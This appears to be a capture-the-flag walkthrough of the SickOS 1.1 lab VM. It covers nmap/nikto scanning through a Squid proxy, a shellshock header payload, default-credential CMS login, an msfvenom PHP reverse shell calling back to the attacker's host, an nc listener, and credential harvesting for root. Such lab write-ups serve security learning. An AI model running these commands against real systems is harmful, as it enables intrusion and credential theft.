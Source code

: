 # SickOS 1.1
![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`
![](https://i.imgur.com/vlJJGsG.png)
Victim is `192.168.227.133`
`nmap -sS -sV -p- -oN NampSickOsLv1.txt 192.168.227.133`
![](https://i.imgur.com/k4H3slv.png)
Here we got two port open: OpenSSH 5.9p1/22, Squid http proxy 3.1.19/3128
![](https://i.imgur.com/917usUj.png)
Let's use the port:8080 web vul scanner to check the web with proxy.
`nikto -h 192.168.227.133 --useproxy http://192.168.227.133:3128`

![](https://i.imgur.com/ZXLfSRu.png)
There's `shellshock` vulnerability in this service, simply use exploit to get shell command exec.
https://community.tenable.com/s/question/0D5f200004rM1jUCAS/additional-shellshock-pattern-cve20146278-for-bashcve20146271rcenasl
Modified with burp-suite: 
```
User-Agent: () { _; } >_[$($())] { echo;echo; id;}
```
Let's try to see host with proxy first, there might still have   somewhere to be exploited.

![](https://i.imgur.com/zxVd4dq.png)
After setting proxy, browse the host.

![](https://i.imgur.com/DeCLoc6.png)
Nothing here, let's use the url the `Nikto` found: `/cgi.bin/status`
![](https://i.imgur.com/SjfFP0J.png)
Well, there's only some server's OS/kernel version info.
Let's use CTF skill to check the `robots.txt`

![](https://i.imgur.com/bpG4mY3.png)
Here we got the `/wolfcms`, which seem like a cms service.

![](https://i.imgur.com/1eQ4rUI.png)
Simply check every url, traditional cms might has a login panel for admin.

![](https://i.imgur.com/F3IsMTx.png)
![](https://i.imgur.com/ptpD0xB.png)
Seems that `/?` is a suspicious point to other page, maybe we can add `login`, `panel`, `admin` or something in wordlist after it.

![](https://i.imgur.com/8bHrU5K.png)
After we add `admin` after `/?`, we been redirected to `/?/admin/login` automatically.

Now, before we try the SQLi, test default/weak password first.
![](https://i.imgur.com/C9dudVo.png)
Actually, simple SQLi not works on this, but default AC/PW works, as `admin:admin`, we're in.

![](https://i.imgur.com/mfNHUW5.png)
Here we got a feature to upload the file, actually, every cms panel might has this feature, and this is what we want, to upload a reverse shell file.
Pentestmonkey always help:
https://github.com/pentestmonkey/php-reverse-shell

Or you can generate by yourself, use:
`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.227.132 LPORT=8888 R > SickOS11shell.php`

![](https://i.imgur.com/s28r7wQ.png)
Modified the payload before upload.

![](https://i.imgur.com/mSusJMK.png)
Fortunately, this upload system didn't check the file type with Content Security Policy (CSP) header, we don't need to add another proxy to modified the package.

![](https://i.imgur.com/x0a56cI.png)
After update, open terminal `nc -nvlp 8888`, then use browser to browse the page.

![](https://i.imgur.com/JITMSrl.png)
Wuth these, payload might exec, and listener might get shell.

According to nc reverse shell has limmit and some backwards, let change it into pty: `python -c 'import pty;pty.spawn("/bin/bash")'`
Reason might be found here: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

![](https://i.imgur.com/x691GPc.png)
Then we switch into `/var/www/wolfcms` to find the AC/PW.

![](https://i.imgur.com/kswwbdg.png)
Here we got the AC/PW in the database connect config.

![](https://i.imgur.com/SyEfwvv.png)
We use `root:john@123` to ssh, however, it doesn't work.

We cat `/etc/passwd` to see who super user is.
![](https://i.imgur.com/XuGtpqP.png)

![](https://i.imgur.com/I4uV54w.png)
Take another try on `sikOs:john@123`, fortunatelly, we in.

As a super user, we can `sudo su` to become a root with our own password.

Then check `/root` and cat the `flag.txt`
![](https://i.imgur.com/Edf9eS8.png)
